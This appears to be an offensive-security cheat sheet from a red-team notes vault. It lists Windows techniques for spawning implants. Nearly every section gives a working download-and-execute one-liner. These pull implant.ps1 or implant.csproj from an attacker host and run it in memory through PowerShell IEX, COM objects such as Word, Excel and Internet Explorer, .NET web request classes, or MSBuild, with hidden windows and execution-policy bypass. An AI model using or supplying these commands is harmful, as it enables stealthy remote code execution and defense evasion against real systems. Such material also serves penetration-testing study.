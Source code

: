 # Spawn Implant

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #living-off-the-land #windows

## 01 - Command Prompt

### 1.1 - Execute Powershell Commands

System32 is for 32-bit powershell payloads

```
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ex bypass -f file.ps1

C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f file.ps1

C:\Windows\system32\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://<IP>/implant.ps1')"
```

SysWOW64 is for 64-bit powershell payloads

```
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -ep bypass -f shell.ps1

C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f shell.ps1

C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://<IP>/shell.ps1')"
```

### 1.2 - WSH scripts droppers

When deploying reverse shells as droppers or toolings with the following formats.

```
C:\> wscript.exe <script.js | script.vbs>

C:\> cscript.exe <script.js | script.vbs | script.cs>
```

### 1.3 - Compiled After Delivery

#### 1.3.1 - MSBuild

Execute C# project implants.

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe implant.csproj

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\implant.csproj

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\implant.xml

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe implant.xml
```

## 02 - Powershell

### 2.1 - Cmdlets

#### 2.1.1 - `Invoke-RestMethod`

```
PS C:\> IEX (Invoke-RestMethod "http[s]://<IP>[:<PORT>]/implant.ps1)
```

#### 2.1.2 - `Invoke-WebRequest`

```
PS C:\> Invoke-WebRequest http[s]://<IP>[:<PORT>]/implant.ps1 | iex
```

Internet Explorer backwards compatibility.

```
PS C:\> Invoke-WebRequest https[s]://<IP>[:<PORT>]/implant.ps1 -UseBasicParsing | IEX
```

### 2.2 - Powershell Objects

#### 2.1.1 - `DownloadString`

```
PS C:\> iex (New-Object Net.WebClient).DownloadString('http[s]://<IP>:<PORT>/implant.ps1')
```

#### 2.1.2 - `DownloadData`

```powershell
PS C:\> $data = (New-Object Net.WebClient).DownloadData('http[s]://<IP>[:<PORT>]/implant.ps1'); $implant = [System.Text.Encoding]::ASCII.GetString($data); IEX $implant
```

#### 2.1.3 - `OpenRead`

```powershell
PS C:\> IEX (New-Object System.IO.StreamReader ((New-Object Net.Webclient).OpenRead('http[s]://<IP>:<PORT>/implant.ps1'))).ReadToEnd()

PS C:\> $read = (New-Object Net.Webclient).OpenRead('http[s]://<IP>[:<PORT>]/implant.ps1'); $reader = New-Object System.IO.StreamReader $read; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.1.4 - `XmlDocument`

An XML file.

```xml
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>PS C:\> IEX ([System.Text.Encoding]::Unicode.GetString(([Convert]::FromBase64String('<base64_encoded>'))))</execute>
   </a>
  </command>
#>
```

How to execute it.

```powershell
PS C:\> $xmldata = New-Object System.Xml.XmlDocument; $xmldata.Load('http[s]://<IP>[:<PORT>]/implant.xml'); IEX ($xmldata.command.a.execute)
```

### 2.3 - COM Objects

#### 2.3.1 - `Msxml2.XMLHTTP`

```powershell
PS C:\> $http = New-Object -ComObject Msxml2.XMLHTTP; $http.open('GET', 'http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText

PS C:\> $http = [activator]::CreateInstance([type]::GetTypeFromCLSID('F6D90F16-9C73-11D3-B32E-00C04F990BB4')); $http.open('GET', 'http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.2 - `InternetExplorer.Application`

```powershell
PS C:\> $iexplorer = New-Object -ComObject InternetExplorer.Application; $iexplorer.visible = $False; $iexplorer.navigate('http[s]://<IP>[:<PORT>]/implant.ps1'); Start-Sleep 5; $response = $iexplorer.Document.body.innerHTML; $iexplorer.quit(); IEX $response

$iexplorer = [activator]::CreateInstance([type]::GetTypeFromCLSID('0002DF01-0000-0000-C000-000000000046')); $iexplorer.visible = $False; $iexplorer.navigate('http[s]://<IP>[:<PORT>]/implant.ps1'); Start-Sleep 5; $response = $iexplorer.Document.body.innerHTML; $iexplorer.quit(); IEX $response
```

#### 2.3.3 - `WinHttp` (not proxy aware)

```powershell
PS C:\> $http = New-Object -com WinHttp.WinHttpRequest.5.1; $http.open('GET','http[s]://<IP>[:<PORT>]/implant.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.4 - `Word.Application`

```powershell
PS C:\> $DCOMWord = New-Object -ComObject Word.Application; While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } $DCOMWord.Visible = $False; $document = $DCOMWord.Documents.Open('http[s]://<IP>[:<PORT>]/implant.ps1'); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } IEX $document.Content.Text; $DCOMWord.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMWord)

PS C:\> $DCOMWord = [activator]::CreateInstance([type]::GetTypeFromCLSID('000209FF-0000-0000-C000-000000000046')); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } $DCOMWord.Visible = $False; $document = $DCOMWord.Documents.Open('http[s]://<IP>[:<PORT>]/implant.ps1'); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } IEX $document.Content.Text; $DCOMWord.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMWord)
```

#### 2.3.5 - `Excel.Application`

```powershell
PS C:\> $DCOMExcel = New-Object -ComObject Excel.Application; While($DCOMExcel.Busy) { Start-Sleep -Seconds 1 } $DCOMExcel.DisplayAlerts=$False; $Null = $DCOMExcel.Workbooks.Open('http[s]://<IP>[:<PORT>]/implant.ps1'); While($DCOMExcel.Busy) { Start-Sleep -Seconds 1 } IEX (($DCOMExcel.Sheets.Item(1).Range("A1:N"+$DCOMExcel.Sheets.Item(1).UsedRange.Rows.Count).Value2|?{(Variable _).Value})-Join"`n"); $DCOMExcel.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMExcel)
```

### 2.4 - .NET

#### 2.4.1 - `WebRequest`

```powershell
PS C:\> $webrequest = [System.Net.WebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $webrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.4.2 - `HttpWebRequest`

```powershell
PS C:\> $httpwebrequest = [System.Net.HttpWebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $httpwebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.4.3 - `FileWebRequest`

```powershell
PS C:\> $filewebrequest = [System.Net.FileWebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $filewebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $implant = $reader.ReadToEnd(); IEX $implant
```

#### 2.4.4 - `FtpWebRequest`

```powershell
PS C:\> $ftpwebrequest = [System.Net.FtpWebRequest]::Create('http[s]://<IP>[:<PORT>]/implant.ps1'); $response = $ftpwebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $output = $reader.ReadToEnd(); IEX $output
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Host/Processes AND Services AND Software/Discover Programs/Manual/Living off the Land|Living off the Land: Discover Programs]]

- [[Web Delivery|Metasploit: Web Drive-by]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Linux/Network Protocols/SMB|Linux Samba Server]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Windows/Network Protocols/SMB|SMB]]

- [[WebDAV]]

- [[4shared]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/03 - Applocker/CSC/C2 Frameworks/Metasploit|Applocker Defense Evasion: Metasploit]]

- [ss64.com Powershell](https://ss64.com/ps/powershell.html)

- [Hacktricks: Shells - Windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)

- [Hacking Articles: Windows Exploitation MSBuild](https://www.hackingarticles.in/windows-exploitation-msbuild/)

- [Red Team Notes: Using MSBuild to Execute Shellcode in C#](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

- [Secarma: Three ways of using MSBuild to beat CrowdStrike](https://secarma.com/three-ways-of-using-msbuild-to-beat-crowdstrike/)